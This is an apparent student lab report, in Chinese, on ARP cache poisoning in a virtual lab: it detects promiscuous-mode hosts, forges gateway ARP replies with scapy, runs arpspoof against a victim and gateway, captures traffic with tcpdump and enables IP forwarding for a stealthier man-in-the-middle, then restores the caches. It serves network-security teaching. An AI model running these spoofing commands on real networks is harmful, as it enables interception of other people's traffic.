 # chap0x04实验报告

-----

## 实验内容
- [x] 检测局域网中的异常终端
- [x] 手工单步“毒化”目标主机的 ARP 缓存
- [x] 使用自动化工具完成ARP投毒劫持实验
- [ ] 基于scapy编写ARP投毒劫持工具

### 实验过程
#### 实验环境搭建
* 实验主机
    * Kali-Attackter-1  
    * Kali-victim-1 
    * debian-gw
* 实验拓扑图  
![](imgs/structure.png) 
* 在攻击者主机上提前安装好`scapy`
```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

pip3 install scapy[complete]
``` 
#### 实验一 检测局域网中的异常终端
`异常终端`：本实验中指的是开了混杂模式的主机  ，混杂模式指是指一台机器能够接收所有经过它的数据流，而不论其目的地址是否是他。
```bash
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show enp0s3
```  
![](imgs/checkpromisc.png)  
```bash
# 在攻击者主机上开启 scapy
sudo scapy
pkt = promiscping("172.16.111.102")
```
```bash
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set enp0s3 promisc on
```
![](imgs/promisc_on.png)
```bash
# 再次回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("192.168.0.102")

# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set enp0s3 promisc off
```
两次输出结果如下图：  
![](imgs/promisc_on&off_pktping_cmp.png)  

#### 实验二 手工单步“毒化”目标主机的ARP缓存
以下代码在攻击者主机上的scapy交互模式终端下执行
```bash
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

# ###[ Ethernet ]###
#   dst= ff:ff:ff:ff:ff:ff
#   src= 08:00:27:0f:4c:77
#   type= ARP
# ###[ ARP ]###
#      hwtype= 0x1
#      ptype= IPv4
#      hwlen= None
#      plen= None
#      op= who-has
#      hwsrc= 08:00:27:0f:4c:77
#      psrc= 172.16.111.110
#      hwdst= 00:00:00:00:00:00
#      pdst= 172.16.111.1

# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 192.168.0.102
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=Ether()/ARP(op=2, psrc="192.168.0.1", pdst="192.168.0.102", hwdst="08:00:27:bd:92:09")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```
按照课件的办法：
```bash
arpspoofed=ARP(op=2, psrc="192.168.0.1", pdst="192.168.0.102", hwdst="08:00:27:bd:92:09")
```
发现是不能毒化arp缓存表的，会出现以下情况：  
![](imgs/ppt_arp_gwchange.png)   
添加以太网头可以解决上面的问题：  
```bash
arpspoofed=Ether()/ARP(op=2, psrc="192.168.0.1", pdst="192.168.0.102", hwdst="08:00:27:bd:92:09")
```
![](imgs/arp_gwchenge_success.png)  

回到攻击者主机,恢复arp缓存表：  
```bash
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:e8:c0:ff", pdst="172.16.111.102", hwdst="08:00:27:74:ac:67")
sendp(restorepkt1, count=100, inter=0.2)
## （可选）伪装受害者给网关发送 ARP 响应
restorepkt2 = ARP(op=2, pdst="172.16.111.1", hwdst="08:00:27:e8:c0:ff", psrc="172.16.111.102", hwsrc="08:00:27:74:ac:67")
sendp(restorepkt2, count=100, inter=0.2)
```
在受害者主机上查看arp缓存表：
```bash
## 在受害者主机上尝试 ping 网关
ping 192.168.0.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```
![](imgs/gw_reset.png)

#### 实验三 使用自动化工具完成ARP投毒劫持实验

投毒前，查看Kali-Victim的arp缓存表：  
![](imgs/auto_arp_kalivic.png)
查看网关Debian-gw的arp缓存表：
![](imgs/auto_arp_debiangw.png)

投毒：
* 欺骗Kali-victim-1(172.16.111.102)说我Kali-Attackter-1(172.16.111.110)是Debian-gw（172.16.111.1）
```bash
root@kali:~# arpspoof -i eth0 -t 172.16.111.102 172.16.111.1
```
* 欺骗Debian-gw（172.16.111.1）说我Kali-Attackter-1(172.16.111.110)是Kali-victim-1(172.16.111.102)

```bash
root@kali:~# arpspoof -i eth0 -t 172.16.111.1 172.16.111.102
```

再次查看Kali-victim-1和debian-gw的arp缓存表：  
![](imgs/auto_kalivic_gwchange.png)  
* 从上图可以看到Kali-Attackter成功毒化了Kali-victim-1的arp缓存表，将Debian-gw的Mac地址换成了Kali-Attackter的Mac地址。
![](imgs/auto_debiangw_kalivicchange.png)  
* 从上图可以看到Kali-Attackter成功毒化了Debian-gw的arp缓存表，将Kali-victim-1的Mac地址换成了Kali-Attackter的Mac地址。

尝试抓包：

```bash
root@kali:~# tcpdump -i eth0 -w /home/kali/Desktop/test.pcap
```
![](imgs/tcpdump_test.png)
在桌面上我们可以看到生成的test.pcap,用系统自带的解析软件可以打开分析。
![](imgs/test_pcap.png)
观察发出请求主机上的命令行，发现并没有成功的通信，说明这个毒化是不完整的，能够抓到包，但是不能还原原有的正常通信，只有挂起（ctrl+z）或者结束欺骗（ctrl+c）以后才能正常上网：
![](imgs/ping_failure.png)
在投毒前打开Kali-Attackter的流量转发，目的是让攻击者（中间人）转发收到的包到真正的目的地址，攻击者成为真正的中间人：
```bash
root@kali:~# echo 1 > /proc/sys/net/ipv4/ip_forward
```
![](imgs/capture_success.png)
### 实验思考
* 攻击者通过改变受害者arp缓存表里的默认网关Mac地址，实现arp投毒，所有需要经过默认网关的数据流量都会传输到攻击者主机。
* 通过kali-arpspoof工具进行中间人arp投毒（自动化投毒工具），可以让被攻击主机不能正常访问网络，且相关的访问请求都可以被攻击主机捕获，使用ctrl+z挂起欺骗进程，使用ctrl+c终止欺骗进程，此时arp缓存表很快会自动恢复，被攻击主机可以正常访问网络。
![](imgs/q1.png)
* 通过kali-arpspoof工具进行中间人arp投毒（自动化投毒工具），攻击者提前开启流量转发，可以做到隐秘的截取信息不容易被检测出来，在投毒前执行以下代码段：
```bash
root@kali:~# echo 1 > /proc/sys/net/ipv4/ip_forward
```
### 参考资料
[Linux实现的ARP缓存老化时间原理解析](https://developer.aliyun.com/article/494130?spm=a2c6h.13813017.content3.1.707863e8MIWhJn)
[韩涛同学的实验报告](https://github.com/CUCCS/2022-ns-public-HantaoGG/tree/chap0x04/chap0x04#%E5%AE%9E%E9%AA%8C2-%E6%89%8B%E5%B7%A5%E5%8D%95%E6%AD%A5%E6%AF%92%E5%8C%96%E7%9B%AE%E6%A0%87%E4%B8%BB%E6%9C%BAarp%E7%BC%93%E5%AD%98)
[arpspoof使用教程](https://blog.csdn.net/qq_54780911/article/details/121891827)
[arp流量转发实验](https://blog.csdn.net/fengzhantian/article/details/81346552)